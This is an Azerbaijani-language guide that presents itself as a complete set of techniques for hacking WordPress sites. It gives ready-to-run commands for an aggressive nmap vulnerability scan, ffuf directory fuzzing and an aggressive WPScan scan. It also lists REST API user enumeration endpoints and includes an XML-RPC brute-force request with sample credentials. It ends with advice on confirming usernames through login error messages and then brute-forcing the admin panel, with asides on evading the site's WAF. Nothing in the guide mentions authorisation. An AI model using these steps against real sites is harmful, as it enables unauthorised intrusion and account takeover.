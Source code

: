 **WordPress-i Həkk Etməyə Hakim Olmaq – Bütün Texnikalar və Alətlər**

**1. Saytın WordPress olduğunu necə müəyyənləşdirmək olar:**

* `http://target.com` ünvanına daxil olaraq kök (root) qovluğuna `/license.txt` əlavə etsək, WordPress istifadə olunduğunu görə bilərik.

* Saytın səhifə mənbə kodunda “wordpress” sözünü axtarsaq, həm WordPress-in istifadə olunduğunu, həm də versiyasını müəyyən edə bilərik.

* Firefox üçün olan **Wappalyzer** əlavəsini yükləyib hədəf sayta daxil olduqda, saytın WordPress olduğunu, hansı versiyada işlədiyini, hansı WAF-dan istifadə etdiyini və s. kimi məlumatları görə bilərik.

**2. Wappalyzer**

Saytda WAF (Web Application Firewall) olub-olmadığını, WordPress versiyasını və digər önəmli məlumatları müəyyən etməyə kömək edir.

**3. Portların skan edilməsi (Port Scan):**

* `nmap` vasitəsilə port skan edirik. Aşağıdakı əmrlə əgər zəiflik mövcuddursa, `nmap` özü avtomatik olaraq açıq portun versiyasına uyğun CVE və Exploit linklərini göstərir:

```
nmap -sS -sV -O -p- --min-rate 1000 -T4 --script "default,vuln" -oA fullscan target.com
```

**4. Qovluqların Axtarışı (Directories Fuzzing):**

```
ffuf -w directory-wordlist.txt -u http://target.com/FUZZ -mc 200
```

**5. İstifadəçilərin Əldə Edilməsi (Users Enumeration – Manual):**

```
http://target.com/?rest_route=/wp/v2/users
http://target.com/wp-json/wp/v2/users
```

Bu iki endpoint-i URL-də test edərək əgər REST API aktivdirsə, saytın admini və istifadəçiləri haqqında məlumat toplaya bilərsiniz. Bu, bruteforce zamanı istifadəçi adını tapmaqda kömək edir :)

**6. XMLRPC Yoxlaması və Brute Force:**

Əgər sitedə `xmlrpc` aktivdirsə (bunu `/xmlrpc.php` endpoint-i ilə müəyyən etmək olar), bu zaman çox sürətli bruteforce etmək mümkündür və WAF tərəfindən bloklanmaq ehtimalı azalır :)

**POC (Nümunə):**

```
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 250

<?xml version="1.0"?>
<methodCall>
  <methodName>wp.getUsersBlogs</methodName>
  <params>
    <param><value><string>admin</string></value></param>
    <param><value><string>password123</string></value></param>
  </params>
</methodCall>
```

**7. WPScan ilə Aqressiv Skan:**

```
wpscan --url http://target.com -e at -e ap --api-token=<api_token> --plugins-detection aggressive --force
```

Buradan çıxan zəifliklərə uyğun CVE-ləri taparaq exploit yaza və ya mövcud exploit-lərlə istismar edə bilərsiniz.

**8. WordPress Admin Girişi**

WordPress admin login səhifəsinə daxil olduqda ilk olaraq istifadəçi adı – `test`, parol – `test` formatında yoxlayırıq. Əgər sistem “test” adlı istifadəçi qeydiyyatdan keçməyib deyə bir xəta verirsə, deməli bu istifadəçi yoxdur. Daha sonra `user enumeration` yolu ilə tapdığımız istifadəçi adlarını burada yoxlayırıq. Əgər məsələn `webadmin` istifadəçi adı üçün “şifrə yanlışdır” mesajı verirsə, deməli `webadmin` adlı istifadəçi mövcuddur və geridə qalan tək şey admin panelə bruteforce ilə daxil olmaqdır ;)
